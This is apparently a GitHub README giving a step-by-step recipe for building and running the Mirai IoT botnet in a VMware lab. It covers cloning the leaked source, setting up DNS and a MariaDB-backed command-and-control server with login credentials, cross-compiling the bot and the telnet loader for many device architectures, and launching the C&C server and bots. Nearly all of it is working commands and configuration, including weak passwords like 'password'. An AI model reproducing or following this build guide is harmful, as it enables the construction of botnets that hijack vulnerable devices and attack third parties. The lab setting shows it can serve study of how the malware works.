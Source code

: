 # Build-a-Mirai-botnet
In this Experiment, I found a way to build a MIRAI botnet.

An installation guide has been given by Mirai's author:
https://github.com/jgamblin/Mirai-Source-Code/blob/master/ForumPost.md

# *Environment*
1. Fedora27 x64 workstaion with over 16G MEM.
2. Network capabilities.
3. VMware-station or vbox.

# *Requirements*
```bash
dnf install git gcc golang ElectricFence mysql mariadb-server mariadb-common bind bind-utils
dnf groupinstall "Development Tools" -y
dnf install gmp-devel -y
```

## Section 1 Setup dns server
### 1-1 Stop Dns server
```bash 
sudo systemctl stop named
```
### 1-2 Edit /etc/named.conf
```conf
acl "trusted" {
	192.168.241.1; // Self DNS-server ip
};
options {
	listen-on port 53 { any; };
	listen-on-v6 port 53 { any; };
	directory 	"/var/named";
	dump-file 	"/var/named/data/cache_dump.db";
	statistics-file "/var/named/data/named_stats.txt";
	memstatistics-file "/var/named/data/named_mem_stats.txt";
	allow-query     { any; };

	recursion yes;

	dnssec-enable yes;
	dnssec-validation yes;

	managed-keys-directory "/var/named/dynamic";

	pid-file "/run/named/named.pid";
	session-keyfile "/run/named/session.key";

	/* https://fedoraproject.org/wiki/Changes/CryptoPolicy */
	include "/etc/crypto-policies/back-ends/bind.config";
};

logging {
        channel default_debug {
                file "data/named.run";
                severity dynamic;
        };
};

zone "." IN {
	type hint;
	file "named.ca";
};

include "/etc/named.rfc1912.zones";
include "/etc/named.root.key";

```
### 1-3 Edit /etc/named.rfc1912.zones
```conf
zone "changeme.com" IN {
	type master;
	file "changeme.com";
	allow-update { none; };
};
```
### 1-4 Restart named
```bash
systemctl start named
```

## Section 2 Setup mariadb-server mirai databases
### 2-1 Create mysql root password
```bash
mysqladmin -u root password password
```
### 2-2 Run ./scripts/db.sql
```bash
cat ./scripts/db.sql | mysql -uroot -p
```
### 2-3 Add cnc login account
```mysql
INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
```

## Section 3 Compile Mirai code
### 3-1 Download the Mirai code
```bash
git clone https://github.com/jgamblin/Mirai-Source-Code.git

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2

tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2

rm *.tar.bz2

mv cross-compiler-armv4l armv4l
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv6l armv6l
```
### 3-2 Make go home DIR
```bash
mkdir ~/go
```
### 3-3 Adding xcompile path in .bashrc
```bash
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/go
```
*source .bashrc*
```bash
source ~/.bashrc
```
### 3-4 Install GoLang Drivers
```bash
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellword
```
### 3-5 Edit Mirai code
*Edit ./mirai/bot/resolv.c DNS server ip*
```c
struct resolv_entries *resolv_lookup(char *domain)
{
    /*
       Missing code ...
     */
    util_zero(&addr, sizeof (struct sockaddr_in));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INET_ADDR(192,168,241,1); //Change here
    addr.sin_port = htons(53);

    /*
       Missing code ...
     */
}

```
*Edit ./mirai/cnc/main.go*
```go
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password" //Change here
const DatabaseTable string  = "mirai"
```
*Edit ./mirai/cnc/admin.go*
```go
headerb, err := ioutil.ReadFile("/root/Mirai_Code/mirai/prompt.txt") //Change here
```
### 3-6 Compile
```bash
cd ./mirai
./build.sh debug telnet
./build.sh release telnet
cd ../loader
./build.sh
```

## Section 4 Run Mirai Net
### 4-1 Run ./mirai/debug/cnc as root on PC:192.168.241.1
```bash
./mirai/debug/cnc
```
### 4-2 Telnet cnc
```bash
telnet 127.0.0.1
```
### 4-3 Run ./mirai/debug/mirai.dbg as root on VM-PCs
*VM-PC1:192.168.241.108*

*VM-PC2:192.168.241.109*

*VM-PC3:192.168.241.110*
